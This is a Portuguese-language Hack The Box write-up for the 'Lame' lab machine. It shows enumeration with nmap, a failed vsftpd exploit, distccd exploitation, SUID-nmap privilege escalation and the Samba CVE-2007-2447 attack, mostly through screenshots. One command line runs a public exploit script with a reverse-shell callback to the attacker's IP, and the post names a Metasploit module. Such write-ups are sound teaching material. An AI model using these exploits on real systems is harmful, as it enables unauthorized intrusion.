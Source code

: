 ```yaml
---
title: "Hack The Box - Lame"
tags: [Linux,Easy,GTFOBins,Nmap,Suid,Distccd,Vsftpd 2.3.4,Samba 3.0.20,CVE-2007-2447,Linpeas,Metasploit Framework,Usermap Script]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_inicial.png)

Link: <https://www.hackthebox.eu/home/machines/profile/1>

# Enumeração

## Primeiro passo é rodar o nmap contra a máquina, para verificar quais portas estão abertas e quais serviços estão sendo disponibilizados pelas portas.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_nmap.png)

### Explicação de cada parâmetro do Nmap

> -sC --> Rodar alguns scripts padrão em cada porta

> -sV --> Levantar qual serviço está rodando na porta

> -Pn --> Já considera o host ativo

### Verificamos que temos 5 portas abertas no servidor

> Porta 21 -> Servidor FTP vsftpd 2.3.4 (Há exploits para esssa versão do FTP mas não funcionam nessa máquina)

> Porta 22 -> Servidor SSH, dificilmente a exploração vai ser por aqui

> Portas 139 e 445 -> Portas referentes ao Samba, bom ponto de início de buscas de vulnerabilidades

> Porta 3632 -> Aqui no Nmap diz a respeito de *distccd*, se dermos nmap sem a opção -p- ele não encontra essa porta, sinceramente não sei que serviço é esse mas deve ser explorável

## Enumeração da porta 21

### Procuramos por exploits para a versão *2.3.4*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_ftp.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_ftp1.png)

### Setamos os parâmetros

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_ftp2.png)

### Executamos e vemos que não é possível explorar essa falha, seguimos para outra porta

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_ftp3.png)

# Exploração

## Enumeração da porta 3632

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_distcc.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_distcc1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_distcc2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_distcc3.png)

# Escalação de Privilégio

### Rodamos o `linpeas` na máquina para escalar privilégio

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_linpeas.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_linpeas2.png)

#### Encontramos o binário *nmap* com `suid` habilitado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_linpeas3.png)

##### Verificamos o binário NMAP

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_nmap_suid.png)

> Aqui é um vetor de escalação de privilégio, pois o dono do arquivo é o root

#### Encontramos o binário *at* com `suid` habilitado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_linpeas4.png)

##### Verificamos o binario AT

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_at.png)

> Não escalaremos privilégio por aqui, uma vez que quem é o dono dele é o usuário daemon e não root

### Escalando privilégio com o nmap

#### Pesquisamos no `GTFOBins` como realizar a escalação de privilégio com o nmap

> https://gtfobins.github.io/gtfobins/nmap/#shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_nmap_root.png)

#### Escalamos privilégio

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_nmap_root1.png)

### Lemos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_root.png)

# Exploração a partir da porta 445

## Enumeração da porta 445

### Pesquisamos por exploits para Samba versão 3.0.2

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_samba.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_samba1.png)

### Verificamos que é referente ao `CVE-2007-2447`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_samba2.png)

### Pesquisamos por maneiras de explorar ela sem ser pelo Metasploit Framework

#### Encontramos esse github

> https://github.com/amriunix/CVE-2007-2447

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_samba3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_samba4.png)

### Executamos o script e ganhamos acesso ao sistema

> python usermap_script.py 10.10.10.3 445 10.10.16.119 443

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_samba5.png)

# Explorando através do Metasploit Framework

### O exploit a ser utilizado é o *exploit/multi/samba/usermap_script* nos da acesso de root já

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-lame/Lame_msf.png)